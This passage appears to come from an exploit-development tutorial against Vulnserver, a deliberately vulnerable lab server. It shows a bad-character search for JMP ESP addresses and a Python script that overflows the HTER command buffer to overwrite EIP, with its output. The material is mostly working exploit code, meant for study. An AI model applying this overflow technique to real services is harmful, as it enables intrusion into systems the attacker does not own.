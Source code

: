 ```NX bit``` is also disabled, which allows us to execute shellcode on stack memory
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 find-bad-address.py
Found bad char af in 0x625011af
Found bad char bb in 0x625011bb
Found bad char c7 in 0x625011c7
Found bad char d3 in 0x625011d3
Found bad char df in 0x625011df
Found bad char eb in 0x625011eb
Found bad char f7 in 0x625011f7

Available JMP ESP pointers without bad characters are
['0x62501203', '0x62501205']
```

So we found only 2 pointers without restricted characters

Lets craft the script and enter the address of the jmp esp opcode in ```little endian``` format because the data in stack is placed in little endian format

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat jmp-esp.py         
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2041
# to overwrite EIP with JMP ESP
payload+=b"\x03\x12\x50\x62"
# padding
payload+=b"D"*8
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"HTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 jmp-esp.py                         
```

After crashing, we can see that we landed perfectly on ESP memory leading to an illegal instruction error from ESP

<div align="center">